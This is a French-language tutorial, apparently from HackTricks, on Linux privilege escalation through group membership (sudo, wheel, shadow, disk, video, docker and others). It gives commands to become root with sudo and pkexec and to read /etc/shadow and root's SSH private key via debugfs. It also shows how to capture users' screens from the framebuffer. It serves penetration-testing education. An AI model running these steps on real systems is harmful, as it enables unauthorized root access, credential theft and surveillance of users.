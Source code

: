 {% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Formation Expert Red Team AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Formation Expert Red Team GCP (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

Utilisez [**Trickest**](https://trickest.com/?utm_source=hacktricks&utm_medium=text&utm_campaign=ppc&utm_term=trickest&utm_content=command-injection) pour construire et **automatiser des flux de travail** facilement grâce aux **outils communautaires les plus avancés** au monde.\
Accédez dès aujourd'hui :

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=command-injection" %}

# Groupes Sudo/Admin

## **PE - Méthode 1**

**Parfois**, **par défaut \(ou parce que certains logiciels en ont besoin\)**, vous pouvez trouver certaines de ces lignes dans le fichier **/etc/sudoers** :
```bash
# Allow members of group sudo to execute any command
%sudo	ALL=(ALL:ALL) ALL

# Allow members of group admin to execute any command
%admin 	ALL=(ALL:ALL) ALL
```
Cela signifie que **tout utilisateur appartenant au groupe sudo ou admin peut exécuter n'importe quoi en tant que sudo**.

Si c'est le cas, pour **devenir root, vous pouvez simplement exécuter**:
```text
sudo su
```
## PE - Méthode 2

Trouvez tous les binaires suid et vérifiez s'il y a le binaire **Pkexec** :
```bash
find / -perm -4000 2>/dev/null
```
Si vous constatez que le binaire pkexec est un binaire SUID et que vous appartenez à sudo ou admin, vous pourriez probablement exécuter des binaires en tant que sudo en utilisant pkexec.  
Vérifiez le contenu de :
```bash
cat /etc/polkit-1/localauthority.conf.d/*
```
Là, vous trouverez quels groupes sont autorisés à exécuter **pkexec** et **par défaut** dans certains linux peuvent **apparaître** certains des groupes **sudo ou admin**.

Pour **devenir root, vous pouvez exécuter**:
```bash
pkexec "/bin/sh" #You will be prompted for your user password
```
Si vous essayez d'exécuter **pkexec** et que vous obtenez cette **erreur** :
```bash
polkit-agent-helper-1: error response to PolicyKit daemon: GDBus.Error:org.freedesktop.PolicyKit1.Error.Failed: No session for cookie
==== AUTHENTICATION FAILED ===
Error executing command as another user: Not authorized
```
**Ce n'est pas parce que vous n'avez pas de permissions mais parce que vous n'êtes pas connecté sans une interface graphique**. Et il existe une solution à ce problème ici : [https://github.com/NixOS/nixpkgs/issues/18012\#issuecomment-335350903](https://github.com/NixOS/nixpkgs/issues/18012#issuecomment-335350903). Vous avez besoin de **2 sessions ssh différentes** :

{% code title="session1" %}
```bash
echo $$ #Step1: Get current PID
pkexec "/bin/bash" #Step 3, execute pkexec
#Step 5, if correctly authenticate, you will have a root session
```
{% endcode %}

{% code title="session2" %}
```bash
pkttyagent --process <PID of session1> #Step 2, attach pkttyagent to session1
#Step 4, you will be asked in this session to authenticate to pkexec
```
{% endcode %}

# Groupe Wheel

**Parfois**, **par défaut** dans le **fichier /etc/sudoers**, vous pouvez trouver cette ligne :
```text
%wheel	ALL=(ALL:ALL) ALL
```
Cela signifie que **tout utilisateur appartenant au groupe wheel peut exécuter n'importe quoi en tant que sudo**.

Si c'est le cas, pour **devenir root, vous pouvez simplement exécuter**:
```text
sudo su
```
# Groupe Shadow

Les utilisateurs du **groupe shadow** peuvent **lire** le **/etc/shadow** fichier :
```text
-rw-r----- 1 root shadow 1824 Apr 26 19:10 /etc/shadow
```
Alors, lisez le fichier et essayez de **craquer quelques hashes**.

# Groupe de Disque

Ce privilège est presque **équivalent à l'accès root** car vous pouvez accéder à toutes les données à l'intérieur de la machine.

Fichiers : `/dev/sd[a-z][1-9]`
```text
debugfs /dev/sda1
debugfs: cd /root
debugfs: ls
debugfs: cat /root/.ssh/id_rsa
debugfs: cat /etc/shadow
```
Notez qu'en utilisant debugfs, vous pouvez également **écrire des fichiers**. Par exemple, pour copier `/tmp/asd1.txt` vers `/tmp/asd2.txt`, vous pouvez faire :
```bash
debugfs -w /dev/sda1
debugfs:  dump /tmp/asd1.txt /tmp/asd2.txt
```
Cependant, si vous essayez de **modifier des fichiers appartenant à root** \(comme `/etc/shadow` ou `/etc/passwd`\), vous obtiendrez une erreur "**Permission denied**".

# Groupe Vidéo

En utilisant la commande `w`, vous pouvez trouver **qui est connecté au système** et cela affichera une sortie comme celle-ci :
```bash
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
yossi    tty1                      22:16    5:13m  0.05s  0.04s -bash
moshe    pts/1    10.10.14.44      02:53   24:07   0.06s  0.06s /bin/bash
```
Le **tty1** signifie que l'utilisateur **yossi est connecté physiquement** à un terminal sur la machine.

Le **groupe vidéo** a accès pour voir la sortie de l'écran. En gros, vous pouvez observer les écrans. Pour ce faire, vous devez **capturer l'image actuelle à l'écran** en données brutes et obtenir la résolution que l'écran utilise. Les données de l'écran peuvent être enregistrées dans `/dev/fb0` et vous pouvez trouver la résolution de cet écran dans `/sys/class/graphics/fb0/virtual_size`
```bash
cat /dev/fb0 > /tmp/screen.raw
cat /sys/class/graphics/fb0/virtual_size
```
Pour **ouvrir** l'**image brute**, vous pouvez utiliser **GIMP**, sélectionner le fichier **`screen.raw`** et choisir comme type de fichier **Données d'image brute** :

![](../../.gitbook/assets/image%20%28208%29.png)

Ensuite, modifiez la largeur et la hauteur pour celles utilisées sur l'écran et vérifiez différents types d'image \(et sélectionnez celui qui montre mieux l'écran\) :

![](../../.gitbook/assets/image%20%28295%29.png)

# Groupe Root

Il semble qu'en par défaut, les **membres du groupe root** pourraient avoir accès à **modifier** certains fichiers de configuration de **service** ou certains fichiers de **bibliothèques** ou **d'autres choses intéressantes** qui pourraient être utilisées pour escalader les privilèges...

**Vérifiez quels fichiers les membres root peuvent modifier** :
```bash
find / -group root -perm -g=w 2>/dev/null
```
# Groupe Docker

Vous pouvez monter le système de fichiers racine de la machine hôte sur le volume d'une instance, de sorte que lorsque l'instance démarre, elle charge immédiatement un `chroot` dans ce volume. Cela vous donne effectivement un accès root sur la machine.

{% embed url="https://github.com/KrustyHack/docker-privilege-escalation" %}

{% embed url="https://fosterelli.co/privilege-escalation-via-docker.html" %}

# Groupe lxc/lxd

[lxc - Escalade de privilèges](lxd-privilege-escalation.md)

<figure><img src="/.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

Utilisez [**Trickest**](https://trickest.com/?utm_source=hacktricks&utm_medium=text&utm_campaign=ppc&utm_term=trickest&utm_content=command-injection) pour construire et **automatiser des flux de travail** facilement alimentés par les **outils communautaires les plus avancés** au monde.\
Obtenez un accès aujourd'hui :

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=command-injection" %}

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
